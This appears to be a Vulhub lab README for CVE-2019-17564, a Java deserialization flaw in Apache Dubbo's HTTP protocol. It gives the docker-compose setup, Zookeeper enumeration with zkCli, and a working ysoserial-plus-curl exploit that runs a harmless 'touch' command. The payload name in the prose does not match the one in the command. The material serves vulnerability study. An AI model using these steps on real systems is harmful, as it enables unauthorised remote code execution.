

# Aapche Dubbo Unsafe Java Deserialization (CVE-2019-17564)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Dubbo is a high-performance, java based open source RPC framework.

Apache Dubbo supports different protocols, and its HTTP protocol handler is a wrapper of Spring Framework's `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`.

A security warning of Spring Framework shows that an unsafe Java deserialization is exist in the `HttpInvokerServiceExporter`, which could lead to a RCE vulnerability:

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code As a consequence, do not expose HTTP invoker endpoints to untrusted As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

This vulnerability affects Apache Dubbo 2.7.4 and earlier, after 2.7.5 Dubbo replace `HttpInvokerServiceExporter` with `com.googlecode.jsonrpc4j.JsonRpcServer`.

Reference links.

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## Vulnerable Application

Start an Apache Dubbo 2.7.3 Provider by executing the following command.

```
docker-compose up -d
```

After the service is started, browser ``http://your-ip:8080`` and the server will return an empty 500 error page by default.

## Exploit

It is important to know the RPC interface name before leveraging this vulnerability.

Vulhub is exposing the port 8080 and port 2181, where 2181 is the port of Zookeeper. Download [Zookeeper](https://zookeeper.apache.org/) and use the script **zkCli** to connect to the unauthenticated Zookeeper server:

```
./zkCli -server target-ip:2181
```

After connecting, it is come with an interactive console, where you can `ls` all nodes, including Dubbo-related configuration.


Get the RPC interface named `org.vulhub.api.CalcService`. Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a `CommonsCollections6` payload, then send it to `http://your-ip:8080/org.vulhub.api.CalcService` as POST body.

```
java -jar ysoserial.jar CommonsBeanutils6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```


Entering the container, you can see that `touch /tmp/success` has been executed successfully.


